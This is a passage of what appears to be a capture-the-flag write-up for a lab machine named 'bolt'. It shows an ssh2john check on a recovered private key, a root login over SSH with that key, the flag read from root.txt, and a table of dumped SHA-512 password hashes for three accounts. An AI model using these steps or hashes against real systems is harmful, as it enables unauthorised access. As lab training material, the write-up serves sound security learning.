 I, by habit, tried to crack the key, but it is not passphrase protected. So we can directly login with ssh

```sh
$python2 /usr/share/john/ssh2john.py id_rsa
id_rsa has no password!
$ssh -i id_rsa 10.10.10.159
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Thu Apr  2 21:47:58 UTC 2020

  System load:  0.07              Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 29%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    157
Last login: Mon Oct 21 09:53:48 2019
root@bolt:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bolt:~# cat root.txt
ntrkzgnkotaxyjv0ntrinda4yzbkztgw
```

Done !

**Guanicoe**

| name | hash |
| ------------- |:-------------:| -----:|
| root | $6$tBgQhcnm$9LkMBpvqFk8yk2WbvQYSiZdvA6k0w3b3lfcdJzTE5BrGm5b/IyEfFD5HskZ3Z35yhrj9hbyrhbFELzzQa5ldP0 |
| git  | $6$u.ix2wsI$11gn1OZX8UIFodXK.egLdYBI7e7tvsOjJa2Nc98SbZOcqISdUwWFzeJAliORbhL8dVOtHh2BN3sTix.jGpsI21 |
| bolt | $6$MbEsG45E$GwigsJKeDuECWa.fnc5yfN0ahJOYYU9RuQ044xQlmt7blReerywj4EQoVyrElU1XgUzqunQ5ZAPoL1/V7KRXG1 |

